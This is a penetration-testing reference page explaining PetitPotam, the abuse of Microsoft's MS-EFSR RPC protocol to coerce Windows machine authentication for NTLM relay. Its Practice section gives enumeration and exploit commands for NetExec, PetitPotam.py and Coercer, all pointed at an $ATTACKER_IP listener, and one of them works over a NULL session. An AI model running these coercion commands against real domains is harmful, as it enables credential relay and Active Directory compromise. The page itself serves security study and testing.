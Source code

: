 # MS-EFSR abuse (PetitPotam)

## Theory

MS-EFSR is Microsoft's Encrypting File System Remote protocol. It performs maintenance and management operations on encrypted data that is stored remotely and accessed over a network ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-efsr)) and is available as an RPC interface. That interface is available through the `\pipe\efsrpc`, `\pipe\lsarpc`, `\pipe\samr`, `\pipe\lsass` and `\pipe\netlogon` SMB named pipes.

In 2019, Google's Project Zero research team found and reported a bug on MS-EFSR that could be combined with a [NTLM Reflection attack](https://bugs.chromium.org/p/project-zero/issues/detail?id=222) leading to a Local Privilege Elevation. An insufficient path check in MS-EFSR's `EfsRpcOpenFileRaw` method allowed attackers to force the `SYSTEM` account into creating an executable file of the attacker's choosing, hence providing the attacker with local admin rights.

While the wider implications of this bug, AD-DS-wise, were only suspected, in 2021, [Lionel GILLES](https://twitter.com/topotam77/status/1416833996923809793) used that bug to remotely coerce domain-joined machine's authentication. **The coerced authentications are made over SMB**. But MS-EFSR abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The following MS-EFSR's methods were detected vulnerable

* `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv` ([partially patched by Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942))
* `EfsRpcEncryptFileSrv`, `EfsRpcDecryptFileSrv`, `EfsRpcQueryUsersOnFile`, `EfsRpcQueryRecoveryAgents`, `EfsRpcRemoveUsersFromFile`, `EfsRpcAddUsersToFile`, `EfsRpcFileKeyInfo`, `EfsRpcDuplicateEncryptionInfoFile`, `EfsRpcAddUsersToFileEx` (unpatched at the time of this article update, 29th December 2021)

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to check if the target is vulnerable to PetitPotam.

```bash
netexec smb <TARGET> -u <USER> -p <PASSWORD> -M petitpotam -o PIPE=netlogon
```
{% endtab %}

{% tab title="Exploit" %}
#### Topotam's exploit

An authentication can be forced with the original author's proof-of-concepts dubbed "[PetitPotam](https://github.com/topotam/PetitPotam)" (available in C and Python) by using a valid AD account's credentials.

```bash
Petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

#### ly4k's exploit

An alternative Python implementation ([https://github.com/ly4k/PetitPotam](https://github.com/ly4k/PetitPotam)) can be used to exploit other unpatched methods that the original implementation doesn't feature.

```bash
# With $TARGET as [[domain/]username[:password]@]<targetName or address>
petitpotam.py -method AddUsersToFile -pipe netlogon $TARGET '\\$ATTACKER_IP\share\foo'
```

#### Coercer

Yet another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
# Coerce
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-EFSR -l $ATTACKER_IP -t $TARGET_IP

# Coerce a specific method
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-method-name EfsRpcFileKeyInfo -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilities of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

{% hint style="success" %}
Some tests conducted in lab environments showed that, unlike the [MS-RPRN abuse (printbug)](ms-rprn.md), a NULL session could potentially be used to trigger that bug (if allowed by the target). This has only been verified to be working on on Windows Server 2016 and Windows Server 2019 Domain Controllers.

```bash
Petitpotam.py $ATTACKER_IP $TARGET_IP
```
{% endhint %}

{% hint style="success" %}
For the proof of concept to work, using a proper security provider (`RPC_C_AUTHN_WINNT`) and authentication level (`RPC_C_AUTHN_LEVEL_PKT_PRIVACY`) can be required, especially if the target is patched against MS-EFSR abuse (which doesn't completely mitigate the vulnerability). In both tools mentioned above, this is enabled by default only on topotam's one.
{% endhint %}

## Resources

{% embed url="https://www.exploit-db.com/exploits/47115" %}

{% embed url="https://github.com/topotam/PetitPotam" %}

{% embed url="https://github.com/ly4k/PetitPotam" %}

{% embed url="https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc" %}
Understand RPC better
{% endembed %}
